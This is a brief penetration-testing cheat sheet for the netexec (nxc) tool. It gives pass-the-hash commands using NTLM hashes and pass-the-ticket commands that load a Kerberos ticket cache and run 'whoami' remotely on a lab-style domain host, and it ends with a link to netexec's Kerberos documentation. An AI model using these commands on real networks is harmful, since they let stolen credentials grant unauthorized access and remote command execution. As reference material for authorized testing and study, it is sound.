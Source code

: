 # $ netexec - pass-the-hash
```bash
$ netexec <protocol> <IP> -u <user> -H <ntlm_hash>
$ netexec <protocol> <IP> -u <users_file> -H <ntlm_hashes_file>
```
# $ netexec - pass-the-ticket
```bash
$ export KRB5CCNAME=/home/bonclay/impacket/administrator.ccache
$ nxc smb zoro.gold.local --use-kcache
$ sudo nxc smb zoro.gold.local --use-kcache -x whoami

```
https://www.netexec.wiki/getting-started/using-kerberos
